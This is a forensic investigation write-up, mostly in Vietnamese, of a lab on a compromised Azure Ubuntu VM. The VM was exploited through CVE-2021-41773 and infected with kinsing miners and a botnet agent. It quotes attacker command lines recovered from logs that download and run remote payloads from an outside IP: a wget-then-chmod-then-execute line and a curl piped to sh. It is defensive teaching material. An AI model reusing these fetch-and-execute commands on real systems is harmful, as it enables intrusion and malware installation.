

# Azure Lab

**Difficulty:** Hard  
**Category:** Endpoint  
**Tools:** FTK Imager, Volatility

---

## 📋 Overview

### 📀 `sdb.vhd.gz` – Ảnh đĩa ảo (Virtual Hard Disk)

- **Nguồn gốc**: Snapshot từ Azure – tức là một bản sao của ổ đĩa chính từ máy ảo trên nền tảng đám mây Azure
- **Định dạng**: `.vhd.gz` là ảnh ổ đĩa VHD (Virtual Hard Disk) được nén lại bằng gzip
- **Mục đích sử dụng trong forensics**:
  - Kiểm tra **file system** (hệ thống tệp): có thể mount ảnh này và duyệt toàn bộ dữ liệu như một ổ đĩa thật
  - Tìm kiếm **tác vụ theo lịch** (cron jobs), **script độc hại**, **các file mới tạo hoặc bị chỉnh sửa**
  - Phát hiện **tài khoản người dùng lạ**, **backdoor**, hoặc **phần mềm độc hại bị cài đặt**

✅ **Dữ liệu không thay đổi – rất tốt cho điều tra dấu vết lâu dài**

---

### 🧠 `ubuntu.20211208.mem.gz` – Bản ghi bộ nhớ (Memory Dump)

- **Nguồn gốc**: Tạo bởi công cụ LiME – một công cụ nổi tiếng để trích xuất bộ nhớ RAM của hệ thống Linux
- **Định dạng**: Tập tin dump bộ nhớ nén bằng gzip
- **Mục đích sử dụng trong forensics**:
  - Khám phá **tiến trình đang chạy (processes)** tại thời điểm lấy dump
  - Xem **kết nối mạng**, **socket**, hoặc **shell đang hoạt động**
  - Phục hồi **lệnh bash** gần nhất hoặc **payload** nằm trong bộ nhớ nhưng chưa ghi vào ổ đĩa
  - Phát hiện **rootkit**, **keylogger**, hoặc **malware in-memory**

✅ **Dữ liệu dễ mất – nhưng lại chứa thông tin rất "tươi" về hoạt động của kẻ tấn công**

---

### 🧰 `uac.tgz` – Kết quả từ Unix Artifact Collector (UAC)

- **Nguồn gốc**: UAC là một công cụ tự động thu thập dữ liệu điều tra số trên hệ thống Unix/Linux
- **Định dạng**: `.tgz` – file tar nén chứa nhiều file văn bản, log, output của lệnh hệ thống
- **Thông tin được thu thập**:
  - Danh sách tiến trình đang chạy (`ps`, `top`, `pstree`)
  - Kết nối mạng (`ss`, `netstat`)
  - File được mở (`lsof`)
  - Thông tin người dùng (`last`, `who`, `w`)
  - Lịch sử lệnh (`.bash_history`, `.zsh_history`, ...)

✅ **Tổng quan nhanh về trạng thái hệ thống tại thời điểm cụ thể**

---

### 📊 Tổng quan Artifacts

| Artifact | Dữ liệu | Mục tiêu chính |
|----------|---------|----------------|
| `sdb.vhd.gz` | Ổ đĩa | Phát hiện persistence & artifacts lâu dài |
| `ubuntu.20211208.mem.gz` | RAM | Phân tích hành vi tạm thời, malware hoạt động |
| `uac.tgz` | Báo cáo | Snapshot tổng hợp về hệ thống & người dùng |

---

## 🔍 Questions & Solutions

### Q1: Cleanup Script Name
**File:** `sdb.vhd`  
**Question:** There is a script that runs every minute to do cleanup. What is the name of the file?

Mở FTK Imager, kiểm tra các file crontabs tại:
- `/etc/cron*`
- `/var/spool/crontabs`




File thực hiện với quyền root, với cú pháp `* * * * *` (5 dấu *) tức thực thi mỗi phút.

**Answer:** `/root/remove.sh`

---

### Q2: First Malware File
**File:** `sdb.vhd`  
**Question:** The script in Q#1 terminates processes associated with two Bitcoin miner malware files. What is the name of 1st malware file?


Script thực hiện:
- Vòng lặp `for` tìm kiếm các tiến trình `kinsing|kdevtmp` trong `/tmp`
- Lấy PID và terminate chúng

**Answer:** `kinsing`

---

### Q3: New File Permissions
**File:** `sdb.vhd`  
**Question:** The script in Q#1 changes the permissions for some files. What is their new permission?

**Answer:** `444` (read-only for all users → kiểm soát việc thực thi)

---

### Q4: Botnet Agent SHA256
**File:** `sdb.vhd`  
**Question:** What is the sha256 of the botnet agent file?

**Background:** CVE-2021-41773 - Apache Path Traversal và RCE vulnerability

Kiểm tra `/var/log/apache2/access_log`:


Các IP đang cố gắng khai thác lỗ hổng.


Tìm kiếm với regex: request POST và status 200.

#### Phân tích Log Files

| Log file | Ghi gì? | Khi nào dùng |
|----------|---------|--------------|
| `access_log` | Mọi request HTTP đến server (GET, POST, ...) | ✅ Xác định thời gian, IP, URL tấn công |
| `error_log` | Lỗi xảy ra khi xử lý request / CGI / shell | ✅ Xem payload, shell command, lỗi khi thực thi mã độc |

Kiểm tra `error_log` với các keyword: `curl`, `wget`, `chmod +x`


```bash
grep "chmod +x" error_log
```

Output:
```bash
[Thu Nov 11 19:08:22.859342 2021] [dumpio:trace7] [pid 803:tid 139978898114304] 
[client 141.135.85.36:51858] mod_dumpio:  dumpio_in (data-HEAP): 
echo; /usr/bin/wget -O /tmp/dk86 http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86; 
chmod +x /tmp/dk86; /tmp/dk86 &;
```

#### Tại sao file lại ở `/var/tmp` thay vì `/tmp`?

| Thư mục | Đặc điểm |
|---------|----------|
| `/tmp` | Tạm thời, **bị xóa khi reboot** |
| `/var/tmp` | Tạm thời, **giữ lại sau reboot** |


Export file `dk86` và xác minh trên VirusTotal.

**Answer:** *(SHA256 hash of dk86 file)*

---

### Q5: Botnet Name
**File:** `sdb.vhd`  
**Question:** What is the name of the botnet in Q#4?


**Answer:** *(Botnet name from VirusTotal)*

---

### Q6: IP Address Timeline
**File:** `sdb.vhd`  
**Question:** What IP address matches the creation timestamp of the botnet agent file in Q#4?


Thời gian tải xuống `dk86` và IP liên quan.

**Answer:** `141.135.85.36`

---

### Q7: Download URL
**File:** `sdb.vhd`  
**Question:** What URL did the attacker use to download the botnet agent?

**Answer:** `http://138.197.206.223:80/wp-content/themes/twentysixteen/dk86`

---

### Q8: Self-Deleting Script
**File:** `sdb.vhd`  
**Question:** What is the name of the file that the attacker downloaded to execute the malicious script and subsequently remove itself?

Tìm kiếm với `rm` command nhưng không có kết quả rõ ràng.


Thay đổi chiến lược: tìm kiếm theo địa chỉ IP.


Phát hiện command:
```bash
curl -s http://138.197.206.223/.../b64.php | sh
```


Tìm file `b64.php` trong FTK Imager:


Giải mã base64 hai lần.


**Answer:** `.install`

---

### Q9: Downloaded Shell Scripts
**File:** `sdb.vhd`  
**Question:** The attacker downloaded sh scripts. What are the names of these files?


Scripts được tải về:
1. `ap.sh` (piped to bash)
2. `0_cron.sh` (wget, chmod 777, execute)
3. `0_linux.sh` (wget, chmod 777, execute)

**Answer:** `ap.sh, 0_cron.sh, 0_linux.sh`

---

### Q10: Deleted Directory Processes
**File:** `UAC`  
**Question:** Two suspicious processes were running from a deleted directory. What are their PIDs?

**Background:** UAC (Unix Artifact Collector) thu thập dữ liệu forensics từ hệ thống Unix/Linux.

> **Note:** Trong Unix/Linux, khi file bị xóa nhưng process vẫn chạy, file vẫn tồn tại trong memory cho đến khi process kết thúc. Đây thường là dấu hiệu của malicious activity.

Tìm trong `live_response/process/lsof`:


Hai tiến trình khả nghi:
1. **PID 6388**: chạy `sleep` trong `/var/tmp` (thư mục cho phép ghi và tồn tại sau reboot)
2. **PID 20645**: chạy `.src.sh`

**Answer:** `6388, 20645`

---

### Q11: Suspicious Command Line
**File:** `UAC`  
**Question:** What is the suspicious command line associated with the 2nd PID in Q#10?


Command sử dụng `.` ở đầu tên file để ẩn trong Linux.

**Answer:** *(Command line from the image)*

---

### Q12: Remote Connection Details
**File:** `UAC`  
**Question:** UAC gathered some data from the second process in Q#10. What is the remote IP address and remote port that was used in the attack?

Kiểm tra `proc/20645/environ.txt` (biến môi trường của tiến trình):


**Answer:** *(IP:Port from environ.txt)*

---

### Q13: Executing User
**File:** `UAC`  
**Question:** Which user was responsible for executing the command in Q#11?


**Answer:** `daemon`

> **Note:** User `daemon` là tài khoản hệ thống với đặc quyền thấp, thường được dùng để chạy background services. Attacker sử dụng user này để tránh phát hiện.

---

### Q14: Shell Processes from /tmp
**File:** `UAC`  
**Question:** Two suspicious shell processes were running from the tmp folder. What are their PIDs?


Hai tiến trình shell chạy từ `/tmp`:
- PID 15853
- PID 21875

**Tại sao `/tmp` và `/var/tmp` nguy hiểm?**
- Tất cả user có quyền ghi (`777`)
- Dễ bị bỏ qua khi giám sát
- `/tmp` bị xóa sau reboot (xóa dấu vết)
- `/var/tmp` giữ lại sau reboot (malware persistence)

**Answer:** `15853, 21875`

---

### Q15: Volatility Profile Setup
**File:** `ubuntu.20211208.mem`


---

### Q16: Bash History Script
**File:** `ubuntu.20211208.mem`  
**Question:** From Bash history. The attacker downloaded an sh script. What is the name of the file?


**Answer:** *(Script name from bash history)*

---

## 📝 Summary

Lab này minh họa một cuộc tấn công phức tạp vào Azure VM thông qua:
- Khai thác CVE-2021-41773 (Apache Path Traversal & RCE)
- Tải xuống và thực thi botnet agent
- Sử dụng Bitcoin miner malware
- Thiết lập persistence mechanisms
- Ẩn processes và files

**Key Takeaways:**
- Phân tích multi-source artifacts (disk, memory, UAC)
- Correlation giữa logs, processes, và file system
- Hiểu